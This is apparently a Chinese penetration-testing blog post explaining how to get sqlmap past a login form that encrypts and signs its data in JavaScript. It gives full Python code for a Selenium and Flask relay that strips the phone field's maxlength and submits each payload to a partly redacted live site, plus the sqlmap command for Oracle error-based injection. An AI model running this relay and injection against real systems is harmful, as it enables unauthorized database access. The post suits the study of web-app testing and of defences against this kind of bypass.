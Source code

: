 +++
title = "通过 selenium 和 flask 中转后利用 sqlmap 进行注入"
topics = ["Pentest"]
tags = ["injection"]
description = "渗透测试中有时候前端提交的数据会进行加密之类的操作, 有些加密的函数还不好找, 其实可以用 selenium 调用 chrome 驱动中转后进行测试。"
date = "2019-07-27T18:15:25+08:00"
draft = false
+++
<!--
 * @Author: reber
 * @Mail: reber0ask@qq.com
 * @Date: 2019-07-27 18:15:25
 * @LastEditTime: 2019-07-27 23:07:03
-->

### 0x00 先说前提
昨天某个小伙伴说有个注入没法搞
![60](/img/post/Xnip2019-07-27_19-20-07.png)

前端提交登陆表单时数据包加密了, 而且有个 sign 字符串每次都不一样用于校验, 应该是用 js 加密了
![](/img/post/Xnip2019-07-27_18-40-20.png)
![](/img/post/Xnip2019-07-27_18-41-18.png)

### 0x01 找加密的 js 文件
注入的地方是获取验证码时的手机号, 刚开始想着先找到 js 加密的函数, 然后生成 sign 再组数据包发送。

就像 [记一次SQL Server报错注入](http://localhost:1313/posts/2018/recording-an-sqlserver-sql-injection-of-error-based/) 中一样, 用 selenium 或者 PhantomJS 执行 js 代码生成sign

一番查找发现了加密的 js 文件函数, 但是用的是 angular 这个前端框架, 没用过这个东西。。。。。
![80](/img/post/Xnip2019-07-27_19-06-48.png)
![80](/img/post/Xnip2019-07-27_19-12-37.png)

能看懂一般的 js 代码, 但是这个没得搞, 不懂。。。

### 0x02 数据中转
本来昨天我已经放弃了的, 结果今天上午小伙伴又找我了, 说还没有整好, 又看了一通 js, 仍然无解, 看不懂。。。

想起昨天有个大佬说用 PhantomJS + flask 这样、那样、再这样, 中转数据就可以用 sqlmap 跑了, emmmmm。。。

<div style="display: flex;align-items: center;justify-content: center;">
    <img src="/img/post/Xnip2019-07-27_20-01-02.png" style="width: 50%;height: 50%;" />
</div><br>

虽然很早以前用过 asp 的 [Cookie 注入中转](http://wyb0.com/posts/2015/injection-of-asp-in-the-cookie/?_blank) , 但是那个是软件, 一直没有搞懂原理, 现在正好趁机学下

经过各种百度, 大概明白了, 应是本地起个 server, sqlmap 就扫描这个 server, server 接收到 payload 后将 payload 加到表单中, 然后模拟提交表单

### 0x03 selenium 和 flask 进行中转
没有接触过 PhantomJS, 但是 selenium 以前用过, 可以尝试下

大概看了下, 我们需要注意动态的消息提示框, 需要处理 input 的长度
![90](/img/post/Xnip2019-07-27_20-25-39.png)

大概代码就是下面这样了:

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
'''
@Author: reber
@Mail: reber0ask@qq.com
@Date: 2019-03-22 16:22:59
@LastEditTime: 2019-07-22 09:17:05
'''

import time
from lxml import etree
from flask import Flask
from flask import request
from selenium import webdriver
from selenium.webdriver.chrome.options import Options

# chrome_options = Options()
# chrome_options.add_argument('--headless')
# chrome = webdriver.Chrome(executable_path="/opt/chromedriver", options=chrome_options)
chrome = webdriver.Chrome(executable_path="/opt/chromedriver")
chrome.get("https://cx.xxxxxxx.cn/#dashboard")


app = Flask(__name__)

def send(payload):
    # 用两种登陆方式, 这里切换到验证码登陆方式
    chrome.find_element_by_link_text("手机登录").click()

    # 手机号长度有限制, 去除 input 的 maxlength 属性
    chrome.execute_script("document.getElementById('modile').removeAttribute('maxlength')")

    # 给 input 标签赋值
    chrome.find_element_by_id("modile").send_keys(payload)

    # 点击发送验证码
    chrome.find_element_by_id("BtnphoneNote").click()

    # 网速不好时服务器返回数据慢所以用 while
    while True:
        selector = etree.HTML(chrome.page_source)
        message = selector.xpath("//div[@class='ng-binding ng-scope']/text()")
        if message:
            time.sleep(0.5)
            # 得到返回的信息后, 关闭信息提示框, 然后清楚 input 的内容便于发送下一个 payload
            chrome.find_element_by_class_name("close").click()
            chrome.find_element_by_id("modile").clear()
            break
        time.sleep(0.5)
    return "ttttt"+message[0]

@app.route('/')
def index():
    payload = request.args.get("payload")
    return send(payload)


if __name__ == "__main__":
    app.run()
```

### 0x04 sqlmap 测试效果
* 启动 flask 服务

```
[16:09 reber@wyb at ~/Pentest]
➜  python3 tmp.py
* Serving Flask app "tmp" (lazy loading)
* Environment: production
WARNING: Do not use the development server in a production environment.
Use a production WSGI server instead.
* Debug mode: off
* Running on http://127.0.0.1:5000/ (Press CTRL+C to quit)
```

* 使用 sqlmap 尝试扫描

```
sqlmap --risk 2 --level 3 --tamper space2comment --batch --random-agent -u "http://127.0.0.1:5000/?payload=13188888888*" --dbms="Oracle" --technique=E --current-db
```

* flask 接收到了payload

![](/img/post/Xnip2019-07-27_20-42-19.png)

* sqlmap 执行结果

![](/img/post/Xnip2019-07-27_20-40-16.png)


<br>
#### Reference(侵删)：
* [sqlmap 代理绕过参数 hash 验证](https://www.0dayhack.com/post-677.html?_blank)